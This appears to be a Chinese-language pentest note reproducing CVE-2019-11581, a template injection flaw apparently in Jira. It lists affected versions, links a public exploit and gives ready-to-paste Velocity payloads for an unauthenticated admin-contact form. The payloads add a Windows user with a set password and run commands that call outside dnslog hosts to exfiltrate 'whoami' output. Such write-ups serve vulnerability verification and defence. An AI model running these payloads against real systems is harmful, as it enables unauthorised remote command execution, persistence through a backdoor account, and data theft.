

## 相关漏洞
### CVE-2019-11581 模板注入漏洞

#### 漏洞描述

影响版本

>  4.4.x
>  5.x.x
>  6.x.x
>  7.0.x
>  7.1.x
>  7.2.x
>  7.3.x
>  7.4.x
>  7.5.x
>  7.6.x before 7.6.14 (the fixed version for 7.6.x)
>  7.7.x
>  7.8.x
>  7.9.x
>  7.10.x
>  7.11.x
>  7.12.x
>  7.13.x before 7.13.5 (the fixed version for 7.13.x)
>  8.0.x before 8.0.3 (the fixed version for 8.0.x)
>  8.1.x before 8.1.2 (the fixed version for 8.1.x)
>  8.2.x before 8.2.3 (the fixed version for 8.2.x)

### 漏洞复现

#### 漏洞验证

漏洞利用

> https://github.com/jas502n/CVE-2019-11581

确认未登陆状态下漏洞的存在

访问如下URL（无需管理员账户权限）：

http://10.10.10.12:8080/secure/ContactAdministrators!default.jspa


在Subject填入payload

针对不同目标操作系统的验证

- Windows
- Linux

##### Windows 利用

添加用户

```
$i18n.getClass().forName('java.lang.Runtime').getMethod('getRuntime',null).invoke(null,null).exec('net user neo 1qaz@WSX3edc /add').waitFor()
```

##### Linux 利用

登陆管理员账号，然后访问如下URL：

/secure/admin/SendBulkMail!default.jspa

```
# dnslog query
$i18n.getClass().forName('java.lang.Runtime').getMethod('getRuntime',null).invoke(null,null).exec('curl http://uz09sm.dnslog.cn').waitFor()

# dnslog 外带命令执行结果 示例：whoami
$i18n.getClass().forName('java.lang.Runtime').getMethod('getRuntime',null).invoke(null,null).exec('ping `whoami`.vniyj2.dnslog.cn').waitFor()
```

dnslog query



